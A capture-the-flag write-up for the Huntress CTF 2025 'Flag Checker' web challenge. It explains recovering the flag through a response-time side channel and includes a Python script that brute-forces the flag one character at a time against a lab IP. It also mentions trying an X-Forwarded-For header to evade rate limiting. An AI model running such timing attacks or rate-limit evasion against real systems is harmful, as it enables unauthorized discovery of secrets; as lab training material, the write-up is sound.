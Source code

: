 ```yaml
---
title: "Huntress CTF 2025 — Flag Checker Write-up"
date: 2025-11-01 16:36:48 +0100
categories: ["Huntress CTF 2025"]
tags: ["Web", "CTF", "Huntress", "Timing Attack"]
image: https://raw.githubusercontent.com/AbdulRKB/img/refs/heads/main/Huntress%20CTF%202025/flag-checker-1.png
---
```


> We've decided to make this challenge really straight forward. All you have to do is find out the flag!

> Juuuust make sure not to trip any of the security controls implemented to stop brute force attacks...
---

I used the alert "Brute forcing won't work" as a hint that it was a brute forcing challenge, but what kind of brute force?

After looking at the website more and submitting data, I realised that inputting correct substring (from index 0) caused the website to have a delay which matched the length of the correct substring, e.g. "flag" led to a response time of 0.4s, and "flag{" led to a response time of 0.5s.

![flag-checker-2.png](https://raw.githubusercontent.com/AbdulRKB/img/refs/heads/main/Huntress%20CTF%202025/flag-checker-2.png)

This showed that the web was vulnerable to character by character time-analysis brute forcing. So I created a python script to automate the process of testing every character from `a-f0-9`to see if a change in response time was detected, and upon detection, I would attach that character to the prefix string manually and rerun the string to test characters for next position.  

After submitting about 10 inputs, I was met with the following error:

![flag-checker-3.png](https://raw.githubusercontent.com/AbdulRKB/img/refs/heads/main/Huntress%20CTF%202025/flag-checker-3.png)

I tried to bypass this by adding `X-Forwarded-For`, however It didn't work. So I decided to reset the machine every time the server blocked my IP. 

```python
import requests


IP = "10.1.51.122"
URL = f"http://"+IP+"/submit?flag=flag{77ba0346d9565e77344b9fe40ecf1369"
DATA = "abcdef0123456789"
last_char = '2'
DATA = last_char+DATA.split(last_char)[1]
try:

    for d in DATA:
        resp = requests.get(URL+d)
        resp_data = resp.content.decode()
        print(f"[+] Trying {d}, time: {resp.headers['X-Response-Time']}")
        if "Stop Hacking" in resp_data:
            print(f"[-] Rate Limit, last character: {d} ")
            break
except KeyboardInterrupt:
    print("[x] Exiting!")
except KeyError:
    print("[-] Server Still Starting...")
```

